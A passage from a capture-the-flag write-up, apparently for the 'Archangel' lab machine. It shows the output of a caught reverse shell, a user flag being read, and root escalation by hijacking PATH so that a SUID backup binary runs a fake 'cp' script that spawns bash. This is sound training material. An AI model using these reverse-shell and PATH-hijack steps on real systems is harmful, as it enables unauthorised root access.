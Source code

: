 Then set up a listener on my system and wait:

```
listening on [any] 5555 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.106.97] 44128
bash: cannot set terminal process group (1758): Inappropriate ioctl for device
bash: no job control in this shell
archangel@ubuntu:~$ whoami
whoami
archangel
```

Now let's check out that **secret** directory in the home directory that we couldn't access before:

```
drwxrwx--- 2 archangel archangel  4096 Nov 19  2020 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20  2020 ..
-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
-rw-r--r-- 1 root      root         49 Nov 19  2020 user2.txt
```

Opening up **user2.txt** gives us the answer to the **sixth** objective: **Get User 2 flag**

<br>

## Root

The **backup** program is set to **SUID** and will run as root, so that's our likely escalation path.

It's an executable binary file so I examine it with `strings backup` and find that it runs the following command:

```
cp /home/user/archangel/myfiles/* /opt/backupfiles
```

The **cp** command isn't set to an absolute path so we can easily make our own command with the same name and escalate our privileges to root that way.

First, looking at the environmental variable for PATH:

```
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Running `export PATH=$PWD:$PATH` will update the path and checking again to make sure it's been updated:

```
PATH=/home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Now we can create our **cp** command in the **secret** directory.

```
#!/bin/bash
/bin/bash
```
